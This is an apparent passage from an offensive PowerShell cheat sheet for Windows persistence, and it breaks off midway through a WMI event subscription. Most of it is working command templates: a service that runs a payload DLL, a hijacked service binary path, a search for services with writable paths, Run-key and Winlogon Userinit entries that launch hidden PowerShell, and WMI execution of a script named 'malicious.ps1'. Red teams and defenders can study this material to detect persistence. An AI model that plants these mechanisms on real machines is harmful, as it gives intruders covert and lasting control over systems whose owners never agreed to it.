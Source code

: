 #### Examples
- Custom Service Creation with DLL: Create a service that runs a DLL payload.
    ```powershell
    New-Service -Name "<service_name>" -Binary "rundll32.exe" -ArgumentList "C:\path\to\payload.dll, EntryPointFunction" -DisplayName "<service_display_name>" -StartupType Automatic
    ```
- Change the Binary Path of a Service: Modify an existing service to point to a different binary.
    ```powershell
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<service_name>" -Name "ImagePath" -Value "C:\path\to\new_binary.exe"
    ```
- Hijack a Vulnerable Service with Write Permissions: Identify services where the executable path or config files are writable, then overwrite or modify them to achieve persistence.
    ```powershell
    Get-WmiObject -Class Win32_Service | Where-Object { (Get-Acl -Path $_.PathName).AccessToString -match "Write" }
    ```
- Modifies autorun services to include a malicious command:
	```powershell
	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "PersistentService" -Value "powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>"
	```
- Creates a Winlogon script for persistence:
	```powershell
	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value "powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>,"
	```

# Windows Management Instrumentation (WMI)

#### WMI Query and Execution
- This command queries all running processes using WMI:
    ```powershell
    Get-WmiObject -Query "Select * from Win32_Process"
    ```
- Note: While `Get-WmiObject` is still commonly used, `Get-CimInstance` is a more modern and efficient cmdlet:
    ```powershell
    Get-CimInstance -Query "Select * from Win32_Process"
    ```

#### Execute a Command via WMI
- Execute a Command via WMI:
	```powershell
	Invoke-WmiMethod -Path Win32_Process -Name Create -ArgumentList "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\malicious.ps1"
	```

#### Create a Persistent WMI Event Subscription
- This sets up a persistent WMI event subscription for persistence, where a command will be executed when the event is triggered (in this case, at a specific time):
    ```powershell
    # Define an Event Filter that triggers when the system time reaches 1 PM
    $Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
        Name="PersistentFilter"; 
        EventNamespace="root\cimv2"; 
        QueryLanguage="WQL"; 
        Query="Select * From __InstanceModificationEvent Within 60 
               Where TargetInstance Isa 'Win32_LocalTime' And TargetInstance.Hour = 13"
    }